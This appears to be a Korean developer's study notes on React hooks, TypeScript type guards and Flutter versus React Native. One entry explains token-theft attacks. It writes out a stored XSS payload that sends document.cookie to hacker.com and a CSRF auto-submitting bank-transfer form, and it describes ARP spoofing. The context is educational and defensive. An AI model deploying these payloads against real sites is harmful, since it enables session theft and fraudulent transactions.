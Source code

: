 # Today I Learned

## 목차

- [Week 1 (2025-03-03 ~ 2025-03-07)](#week-1-2025-03-03---2025-03-07)
- [Week 2 (2025-03-10 ~ 2025-03-14)](#week-2-2025-03-10---2025-03-14)

---

## Week 1 (2025-03-03 ~ 2025-03-07)

<details>
<summary>2025-03-04 TUE</summary>

### useState

props를 부모에게 받았을 경우 자식 컴포넌트는 무조건 리렌더링됨. (state가 변경되지 않아도 리렌더링이 될수도 있음)

**리액트 리렌더링 조건**
>1. state 변경 시 리렌더링
>2. props 변경 시 리렌더링
>3. 부모 컴포넌트 리렌더링 발생 시 자식 컴포넌트 리렌더링

부모 컴포넌트 리렌더링 발생 시 모든 자식 컴포넌트도 리렌더링되는 것은 부하가 될 수 있다.

~~그러므로 props로 연결된 부분을 없애고 하위 컴포넌트에서 정의를 하는게 나을 수 있다.~~

⇒ 이런 경우 useMemo훅, useCallback, React.memo을 사용해 캐싱할 수 있다.

**setState의 활용**

state의 set 상태변화함수는 상태를 함수를 활용해 변경하는 역할을 한다. onChange나 onClick같은 이벤트리스너와 조합하면 사용자 입력에 따라 상태를 변경하는 기능을 만들 수 있다.

++ state 변수에는 객체도 등록이 가능함. 이를 통해 여러개의 state 변수를 관리하는 것보다 안전하게 관리가 가능함.

상태 변경 시에 다른 부분은 그대로 유지하고 한 부분만 변경하도록하여 적용한다.

- 스프레드 연산자 : …객체명을 통해 객체의 요소들을 한번에 표현할 수 있다.
- 자바스크립트의 문법으로 객체 속성에 동적으로 접근할 때 [벼]

### useMemo

useMemo 훅은 정의한 함수의 의존성 배열 값이 변경되지 않는 경우 이전 실행 결과를 재사용한다. 그래서 특정 컴포넌트의 리렌더링을 막을 수 있다. 

**단, useMemo는 메모리 사용량 증가로 이어지며 성능이 떨어질수도 있다.** 

**또한 메모이제이션 값이 너무 많아지면 관리가 어렵다.** 

### useCallback

useCallback 훅은 함수를 메모이제이션한다. 특정 함수의 실행 결과를 재사용한다.

### 의존성 배열

- 불필요한 재실행을 막고 싶다면 꼭 필요한 값만 의존성 배열에 넣어야 한다.
- 빈 배열을 넣으면 최초 1회만 실행됨. 그 이후로는 변경되는 값이 없기 때문에 다시 실행되지 않음.
- 의존성 배열을 생략하면 useMemo, useEffect 등의 훅이 매번 실행됨 → 최적화 효과가 없음

### useEffect와 useMemo

| Hook | 사용 목적 | 실행 시점 | 반환 값 | 주의할 점 |
| --- | --- | --- | --- | --- |
| `useEffect` | 부수 효과 (Side Effects) 처리 | 렌더링 후 (After Render) 실행 | `undefined` (리턴값 없음) | 비동기 작업, DOM 조작 등에 사용 |
| `useMemo` | 값(Value) 메모이제이션 | 렌더링 중 (During Render) 실행 | 캐싱된 값(Value) | 연산이 무거운 경우에만 사용해야 성능 최적화됨 |

useMemo는 렌더링 도중 실행되며 비동기 작업 불가능

```
💡 useMemo 프로세스

의존성 배열에 있는 값이 변경 → 컴포넌트가 다시 렌더링 → 그 렌더링 과정 중에 useMemo가 실행
```

### useRef

이전 값과 새로운 값을 연결하고, 렌더링과는 무관하게 값이 유지되어야 할 때 사용됨.

```tsx
const a = useRef(초기값); // ref 객체 선언
a.current // ref 객체의 상태 조회
```

리렌더링을 해도 ref객체의 상태는 유지되고 ref객체의 상태가 변해도 렌더링이 발생하지 않는다는 특징을 갖고 있다.

## 번외

### 타입스크립트의 type guard

이전까지 타입스크립트를 사용하면서 `any` 만 안쓰면 되겠지 하며 assertion type 일명 `as` 키워드를 자주 사용해왔다. 그 이유는 null이 올 수 있더라도 변수의 타입이 string 타입이라는 개인적인? 확신이 있었기 때문이다. 

JS에서는 타입 좁히기(type narrowing)가 타입을 더 쉽게 예측할 수 있는 작업이었고, `as` 키워드 또한 type narrowing 중 하나의 수단이라고 생각했다. 

그런데 공부하다보니 이 `as` 의 타입 확정은 오히려 타입스크립트의 타입 검사 기능을 포기하겠다는 것이나 다름없다고 한다. 그 이유는 개발자가 변수에 어떤 타입이 올지 확실히 인지했다 하여도 `as` 선언에서 실수를 한다면 런타임에러가 터지기 전까지 인지할 수 없기 때문이다.

그 이유는 다음과 같다.

1. 자신은 반드시 string 타입이 올 것이라 생각해 as string을 작성함.
2. 하지만 그것은 개발자의 착각일 가능성이 있거나 요구사항 변경에 따라 변하게 될 가능성이 있음
3. 그렇게 컴파일 시점을 자연스럽게 통과하더라도 런타임에서 오류가 터질 수 있음

비유하자면 이러한 방식은 컴파일러에게 “내가 이 타입을 너보다 더 잘알고있음. 믿어주셈 ㅇㅇ” 라고 말하는 것과 같다. 어림도 없다.

### **결론**

as보다 type narrowing의 올바른 기법은 null 체크 혹은 typeof나 instanceof를 사용한 type guard 기법이다. 이러한 type guard 기법은 무조건 타입을 확정짓는 as와 달리 `타입 검사를 통과하면 타입이 확정` 되기 때문에 옳은 방식이다.

### 자바의 instanceof

> </br>  
> typeof나 instanceof를 사용한 type narrowing은 자바에서는 지양해야 한다. 왜냐하면 instanceof 체크가 필요한 부분이 있다면 그 부분은 객체지향적으로 분리가 필요한 부분일 가능성이 높기 때문이다.
> 
> 1. OCP 위반 : 새로운 타입이 추가될 때마다 instanceof 체크를 변경해야 함.
> 2. TDA(tell don’t ask) 위반: 데이터를 요구하지 않고 객체가 자연스럽게 상호작용하도록해야함. 데이터를 요구하는 행위는 두 함수의 데이터 결합이 이뤄졌다는 뜻임
> 3. 다형성 위반 : instanceof 체크는 강제로 그 타입인 상태일 때의 행동을 규정하므로 미리 설정해둔 동작을 벗어난 동작을 함.
> </br>
</details>

<details>
<summary>2025-03-05 WED</summary>

# 토큰 탈취가 일어나는 과정과 대응방안을 설명해주세요
토큰 탈취가 일어나는 과정, 즉 공격자가 토큰을 탈취하는 방법에는 여러가지가 있습니다. 

## XSS(Cross Site Scripting) 공격

XSS는 보안이 취약한 웹사이트에 악의적인 스크립트를 삽입하여 사용자 브라우저에서 실행되도록 하는 공격입니다.

1. 취약점이 있는 웹사이트의 특징?
    
    다음과 같은 웹사이트는 취약점이 있을 수 있습니다.
    
    - 입력값 검증 X : 서버에서 위험한 입력을 검증한다면 사전 방지할 수 있음
    - innerHTML을 사용해 DOM을 직접 조작하는 웹사이트 : innerHTML은 문자열을 HTML로 바꾸기 때문에 이러한 스크립트에 더욱 취약함
    - eval 함수를 사용하는 웹사이트(eval은 입력을 코드로 실행할 수 있는 JS 함수임)
    - HttpOnly 쿠키 미사용 : HttpOnly가 적용된 쿠키는 접근 불가능하므로 보호될 수 있음
    
    해커는 이러한 취약점이 있는 웹사이트에 스크립트를 삽입합니다. 해커와 유저는 서로 다른 클라이언트이기 때문에 서로에게 영향을 주지는 않지만 **해커가 조작한 데이터가 DB에 삽입되는 경우**는 다릅니다.
    

1. 공격자 스크립트의 동작 과정
    
    EX) 해커가 댓글을 작성한 후 그 스크립트가 유저의 PC에서 동작하는 과정
    
    1. 댓글 스크립트
    
    ```tsx
    좋은 글이네요! <script>var img = new Image(); img.src = "https://hacker.com/steal?cookie=" + document.cookie;</script>
    ```
    
    1. 유저 측에서 확인되는 스크립트
    
    ```tsx
    <div class="comment">
      좋은 글이네요! <script>var img = new Image(); img.src = "https://hacker.com/steal?cookie=" + document.cookie;</script>
    </div>
    ```
    
    이런 식으로 서버를 경유해서 스크립트가 저장됩니다.
    
    클라이언트가 이 사이트에 접근했을 때 해커의 사이트로 쿠키와 함께 이미지 요청을 발송하게 됩니다.
    

 

## CSRF 공격

1. **사용자 인증**
    
    사용자가 웹사이트에 로그인하여 인증 쿠키를 받습니다.
    
2. **인증 상태 유지**
    
    브라우저는 해당 웹사이트에 대한 쿠키를 저장하고 유지합니다.
    
3. **악성 사이트 방문**
    
    사용자가 로그인 상태를 유지한 채로 공격자의 웹사이트나 악성 이메일 링크를 클릭합니다.
    
4. **위조된 요청 실행**
    
    공격자의 사이트는 자동으로 대상 웹사이트에 요청을 보내는 코드를 실행합니다. 예를 들면:
    
    - 자동 제출되는 폼
    - 이미지 태그를 이용한 GET 요청
    - JavaScript를 이용한 요청
5. **브라우저의 쿠키 전송**
    
    브라우저는 요청과 함께 대상 웹사이트에 대한 인증 쿠키를 자동으로 전송합니다.
    
6. **서버의 요청 처리**
    
    대상 웹사이트 서버는 유효한 인증 쿠키를 받았으므로 요청이 합법적인 사용자로부터 온 것으로 간주하고 처리합니다.
    

EX) 악성 웹사이트의 HTML에서 사용자의 쿠키를 활용해 요청을 보내는 경우

```tsx
<!-- 악성 웹사이트의 HTML -->
<body onload="document.getElementById('transfer-form').submit()">
  <form id="transfer-form" action="https://bank.example.com/api/transfer" method="POST">
    <input type="hidden" name="recipient" value="attacker">
    <input type="hidden" name="amount" value="10000">
  </form>
</body>
```

위와 같은 경우 해커가 미리 지정한 value 값으로 계좌이체를 진행하게 됩니다.

### CSRF 방어 방법

1. csrf 토큰을 사용 : 서버에서 생성한 랜덤 토큰을 요청마다 포함시켜 same-site임을 검증
2. same-site 쿠키 속성 : 같은 same site 요청인 경우에만 쿠키 전송
3. Origin 헤더 검증 : CORS를 통해 허용된 Origin 헤더인 경우에 요청을 허용.

## MITM(Man-in-the-Middle) 공격

흔히 말하는 중간에서 공격자가 데이터 전송을 가로채는 기법입니다.

HTTPS로 암호화된 데이터 전송이 아닌 경우 중간에 헤더에 담긴 토큰을 탈취한 후 해석하는 것이 가능합니다.

1. 공격자는 통신 경로(네트워크)에 침입합니다.
    - ARP 스푸핑: 로컬 네트워크의 캐시를 조작해 피해자의 트래픽을 자신에게 리디렉션 하도록 설정함(MAC주소와 IP주소간의 매핑을 조작)
    - DNS 스푸핑: DNS 서버를 조작해 해커의 IP로 요청을 보내도록함
2. 트래픽 가로채기
    
    **ARP 스푸핑**
    
    - 공격자는 로컬 네트워크에서 지속적으로 위조된 ARP 메시지를 브로드캐스트합니다.
    - 이 메시지는 "라우터의 IP 주소는 공격자의 MAC 주소와 연결되어 있다"고 알립니다.
    - 또한 "대상 컴퓨터의 IP 주소는 공격자의 MAC 주소와 연결되어 있다"고 라우터에 알립니다.
    - 피해자의 컴퓨터와 라우터는 ARP 캐시를 업데이트합니다.
    - 결과적으로 피해자와 라우터 사이의 모든 트래픽이 공격자의 컴퓨터를 통과하게 됩니다
</details>

<details>
<summary>2025-03-06 THU</summary>

## 플러터 VS 리액트네이티브
### 크로스 플랫폼 앱이란?
크로스 플랫폼 앱은 하나의 소스 코드로 Android, IOS에서 똑같이 작동하는 앱을 의미합니다.
네이티브 앱과 대조되는 개념입니다.
기존의 네이티브 앱은 Android, IOS가 각각 호환이 안되기 때문에 두개의 앱을 만드는 것과 다름이 없었습니다. 근데 크로스 플랫폼 앱 하나가 있다면 두 운영체제를 동시에 개발하고 운영할 수 있다는 장점이 있습니다.

### 리액트 네이티브란?
JS와 React를 기반으로 만들어졌기 때문에 기본 지식을 알고 있는 사람이라면 RN을 시작할 수 있습니다.
리액트 네이티브는 런타임 중에 JS 브릿지를 생성하고 JS 코드를 네이티브 코드로 변환해서 컴파일함. 그래서 JS의 Object-C API로 IOS 컴포넌트를 만들고 자바 API로 안드로이드 컴포넌트로 렌더링할 수 있음.

### 리액트 네이티브의 차별점?
- 리액트 네이티브는 CodePush라는 시스템을 사용해 기존 출시한 앱을 원격으로 업데이트할 수 있습니다.
- 단, 프로젝트의 리액트 네이티브 버전 업데이트가 어렵습니다.
- 범용적인 개발 언어!(JS/TS)
- 운영체제 별 순정 UI를 사용함.

### 웹 개발자의 접근성이 정말 낮은가?
- 여러 문법들과 Hook, 라이프 사이클은 React와 동일하지만 RN은 모바일이기 때문에 안드로이드, IOS에 대한 기초적인 지식이 필요합니다.

### 플러터란?
Flutter는  ios, Android, 데스크탑, 웹앱을 구현하는 크로스 플랫폼 프레임워크입니다. 다소 생소한 Dart 언어를 사용하는데 플러터는 RN과 달리 별도의 브릿지가 필요없기 때문에 성능이 우수합니다.

### 브릿지가 없지만 Flutter는 어떻게 여러 플랫폼을 지원할까?
- Dart 언어는 앱이 빌드되기 전에 코드를 미리 컴파일하는 Ahead-of-time(AOT) 전략을 지원합니다. 컴파일 타임에 Dart 코드를 네이티브 코드로 컴파일하기 때문에 브릿지가 필요없이 각 플랫폼과 직접 통신할 수 있습니다. 그래서 앱 시작 속도도 빠릅니다.
- 또한 자체적인 위젯을 canvas 위에 직접 렌더링하기 때문에 여러 플랫폼에 동일한 UI를 제공할 수 있습니다. (자체 UI)
- 개발환경도 다양할 뿐더러 다양한 빌드 모드를 지원함

### 플러터의 차별점?
- 플러터의 커뮤니티가 큼
- 자체 디자인 언어를 가진 커스텀 UI를 사용한 앱을 만듬
- 프로젝트의 플러터 버전 업데이트가 쉬움 (아마 Dart는 JS/TS와 달리 자체 의존성을 많이 사용하기 때문인듯. RN은은 open source 의존성을 사용해서 어려운 듯)

</details>

---

## Week 2 (2025-03-10 ~ 2025-03-14)
